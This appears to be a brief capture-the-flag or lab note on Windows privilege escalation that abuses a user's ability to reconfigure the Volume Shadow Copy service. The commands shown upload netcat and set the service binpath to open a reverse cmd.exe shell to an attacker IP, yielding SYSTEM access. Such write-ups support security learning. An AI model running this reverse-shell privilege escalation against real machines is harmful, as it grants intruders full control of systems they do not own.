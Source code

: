 ![[Pasted image 20241013124408.png]]

The user has SeBackupPrivilege enabled but was unable to privesc using diskshadow or SeBackupPrivilege.dll files.

Using instructions on https://github.com/cube0x0/cube0x0.github.io/blob/master/_posts/2020-03-3-Pocing-Beyond-DA.md
- Uploaded nc.exe on target machine
- Modify VSS config binpath. VSS is Volume Shadow Copy service. 
```powershell
sc.exe config VSS binpath="C:\Users\svc-printer\nc.exe 10.10.16.29 443 -e cmd.exe"
```
- Stop the VSS service
```powershell
sc.exe stop VSS
```
- Start a netcat listener and start service
```bash
sc.exe start VSS
```

![[Pasted image 20241013124843.png]]
Got shell as `nt authority\system`